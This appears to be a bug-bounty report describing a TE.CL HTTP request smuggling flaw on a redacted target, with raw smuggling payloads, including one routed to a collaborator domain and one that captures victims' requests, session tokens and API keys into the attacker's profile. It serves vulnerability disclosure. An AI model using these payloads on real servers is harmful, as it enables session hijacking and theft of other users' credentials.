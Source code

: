 # impact

The Attacker can smuggle the HTTP request and leak other users request's with (Session Tokens,Keys,Api Keys,CSRF token and usernames and passwords) using web app at the same time.


# Description
### Account takeover
if you are unaware of HTTP request smuggeling please visit this [https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)

The server is Vulnerable to `TE.CL Smuggeling attack` in which if this is a request sent to the server

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```
The front-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following SMUGGLED. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the Content-Length header and determines that the request body is 3 bytes long, up to the start of the line following 8. The following bytes, starting with SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.


So to exploit this vulnerability an attacker can send the fallowing request to the server

```http
POST / HTTP/1.1
Host: <target.com>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding:  chunked

87
POST /hopefully404 HTTP/1.1
Host: your-collaborator-domain
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

in which this part of the request is kept waiting on the server

```http
POST /hopefully404 HTTP/1.1
Host: your-collaborator-domain
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```

Once any new user sends any http request to the server let say if user sends this request

```http
POST /userdetails.php HTTP/1.1
Host: <target.com>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
CSRFToken=1234

apiKey=1212
```

it will get mixed with the previous request waiting for the next part of the request

POST /hopefully404 HTTP/1.1
Host: <target.com>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
```http
x=1POST /userdetails.php?token=1234 HTTP/1.1
Host: <target.com>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
CSRFToken=1234

apiKey=1212
```

and user will get an 404 for a Valid Request. Please check the video `Confirmation.mkv` to see the practicle demo.


#Exploitation
Now this vulnerability can be exploited in many ways but one of the way is to leak http requests of others with their Session Id and API keys (including Developers)

This request is used to update this fallowing settings

```http

POST /profile 
*********
*********
*********
```

Now an attacker can smuggle a request which will look like this

```
POST / HTTP/1.1
Host: <target.com>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 5
Transfer-Encoding:  chunked

4bd
POST /profile 
*********
*********
*********
```

Now when somone else hits my request his request will get concatinated to my request

```http
POST /profile 
*********
*********
*********description=POST /userdetails.php HTTP/1.1
Host: <target.com>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
CSRFToken=1234

apiKey=1212
```
and the whole http request gets saved to my *******************

description.png

Now the attacker can do the same things again and again to get session tokens of as many as user

### Exposing internal secrets
Sometimes when an fronted adds some secrets,tokens,apikeys,header to the request before sending it to the backend and Since here the (victims-Request)next request is getting attached to my request at the backed it can expose all the headers,ip,token and api keys added by the front end
Here are some headers and IP which i are used in internal API requests which i was able to expose to me
```
************
************
************

```
#Steps to reproduce
Since the issues is really hard to reproduce manually i will suggest you to use this burp plugin to scan and exploit (demo) the issue.

Automatic
You can use https://github.com/PortSwigger/http-request-smuggler this for scanning and exploit the vulnerebility

please fallow these https://github.com/portswigger/http-request-smuggler instructions to reproduce the issue

#Refrences

What is this attack ?
```
https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn?source=post_page-----7c40e246021c----------------------
```
How to find it ?
```
https://portswigger.net/web-security/request-smuggling/finding?source=post_page-----7c40e246021c----------------------
```


How to Exploit it?
```
https://portswigger.net/web-security/request-smuggling/exploiting?source=post_page-----7c40e246021c----------------------
```
